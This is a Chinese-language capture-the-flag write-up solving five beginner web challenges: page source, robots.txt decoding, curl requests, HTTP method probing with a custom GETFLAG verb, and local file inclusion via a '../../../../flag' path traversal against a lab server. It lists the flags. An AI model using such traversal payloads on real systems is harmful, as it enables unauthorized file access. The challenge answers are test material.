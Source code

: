 # Web101

## Web-1:source code

解題步驟1:按下鍵盤F12/滑鼠右鍵=>檢查

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-1.png)

Flag:

>BreakALLCTF{3xjVYR8dMetWQbwzYsLJ}


## web-2:Robots.txt

解題步驟1:在網址後方打上/robots.txt

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(1).png)

解題步驟2:按下Enter後，出現文字<br>
User-agent: *
Disallow: /images
Disallow: /secret
==>在網址後方打上/secret

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(2).png)
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(3).png)

解題步驟3:點下flag.txt

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(4).png)

解題步驟4:hex to string

>echo 516e4a6c595774425445784456455a374e31463053304979546a5655624846425155563651334a36546b3939 | xxd -r -p

解題步驟5:base64 decode

>echo QnJlYWtBTExDVEZ7N1F0S0IyTjVUbHFBQUV6Q3J6Tk99 | base64 --decode
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(5).png)

Flag:

>BreakALLCTF{7QtKB2N5TlqAAEzCrzNO}

也可使用線上解碼工具:
>https://codebeautify.org/hex-string-converter<br>
>https://www.base64decode.org/<br>


## Web-3:Curl-1

解題步驟1:在'GO!'圖示上按下滑鼠右鍵檢查

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-3(1).png)

解題步驟2:發現網頁index.php
==>使用curl工具

>curl http://120.114.62.89:2014/index.php<br>
>curl -x Get -v http://120.114.62.89:2014/index.php<br>
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-3(2).png)

Flag:

>BreakALLCTF{91YODwgPD58gpC4H9AeD}


## web-4:HTTP method

解題步驟1:使用curl工具<br>
==>curl -X GET,POST,OPTIONS,HEAD -v http://120.114.62.89:3001/index.php

curl -X GET -v http://120.114.62.89:3001/index.php
```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> GET /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 501 Not Implemented
< Date: Tue, 29 May 2018 16:35:06 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 199
< Connection: close
< Content-Type: text/html
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>501 Not Implemented</title>
</head><body>
<h1>Not Implemented</h1>
<p>GET to /index.php not supported.<br />
</p>
* Closing connection 0
</body></html>
```
curl -X POST -v http://120.114.62.89:3001/index.php
```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> POST /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 501 Not Implemented
< Date: Tue, 29 May 2018 16:40:40 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 200
< Connection: close
< Content-Type: text/html
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>501 Not Implemented</title>
</head><body>
<h1>Not Implemented</h1>
<p>POST to /index.php not supported.<br />
</p>
* Closing connection 0
</body></html>
```
curl -X HEAD -v http://120.114.62.89:3001/index.php
```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> HEAD /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 501 Not Implemented
< Date: Tue, 29 May 2018 16:40:57 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Connection: close
< Content-Type: text/html
< 
* Closing connection 0
```
curl -X OPTIONS -v http://120.114.62.89:3001/index.php
```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> OPTIONS /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Tue, 29 May 2018 16:41:17 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Allow: GETFLAG,OPTIONS
< Content-Length: 0
< Content-Type: text/html
< 
* Connection #0 to host 120.114.62.89 left intact
```

解題步驟2:發現可使用GETFLAG

curl -X GETFLAG -v http://120.114.62.89:3001/index.php
```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 3001 (#0)
> GETFLAG /index.php HTTP/1.1
> Host: 120.114.62.89:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Tue, 29 May 2018 16:41:33 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 33
< Content-Type: text/html
< 
* Connection #0 to host 120.114.62.89 left intact
BreakALLCTF{fzfaD1jdXyQAMWvRShGC}
```

Flag:

>BreakALLCTF{fzfaD1jdXyQAMWvRShGC}<br>
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web%20-4.png)

HTTP狀態碼:
>https://en.wikipedia.org/wiki/List_of_HTTP_status_codes
```
200 OK
請求已成功，請求所希望的回應頭或資料體將隨此回應返回。實際的回應將取決於所使用的請求方法。在GET請求中，回應將包含與請求的資源相對應的實體。在POST請求中，回應將包含描述或操作結果的實體。
501 Not Implemented
伺服器不支援當前請求所需要的某個功能。當伺服器無法識別請求的方法，並且無法支援其對任何資源的請求。
```

## web-5:Local File Inclusion

解題步驟1:從最底層的資料夾找起

>http://120.114.62.89:2003/index.php?page=flag

解題步驟2:再往上層資料夾尋找

>http://120.114.62.89:2003/index.php?page=../flag

解題步驟3:最終在第四層資料夾找到

>http://120.114.62.89:2003/index.php?page=../../../../flag
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web%20-5.png)

Flag:

>BreakALLCTF{887cs9oKULT0lvtY2bVu} 
